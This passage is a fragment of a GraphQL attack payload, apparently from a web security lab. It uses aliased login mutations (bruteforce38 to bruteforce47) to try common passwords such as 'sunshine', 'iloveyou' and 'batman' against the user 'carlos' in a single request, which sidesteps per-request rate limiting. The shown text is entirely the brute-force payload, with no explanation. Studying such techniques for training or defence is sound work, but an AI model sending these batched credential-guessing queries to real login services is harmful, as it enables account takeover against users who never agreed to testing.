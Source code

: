 ```bash
        token
        success
    }


bruteforce38:login(input:{password: "hunter", username: "carlos"}) {
        token
        success
    }


bruteforce39:login(input:{password: "buster", username: "carlos"}) {
        token
        success
    }


bruteforce40:login(input:{password: "soccer", username: "carlos"}) {
        token
        success
    }


bruteforce41:login(input:{password: "harley", username: "carlos"}) {
        token
        success
    }


bruteforce42:login(input:{password: "batman", username: "carlos"}) {
        token
        success
    }


bruteforce43:login(input:{password: "andrew", username: "carlos"}) {
        token
        success
    }


bruteforce44:login(input:{password: "tigger", username: "carlos"}) {
        token
        success
    }


bruteforce45:login(input:{password: "sunshine", username: "carlos"}) {
        token
        success
    }


bruteforce46:login(input:{password: "iloveyou", username: "carlos"}) {
        token
        success
    }


bruteforce47:login(input:{password: "2000", username: "carlos"}) {
        token
        success
    }
```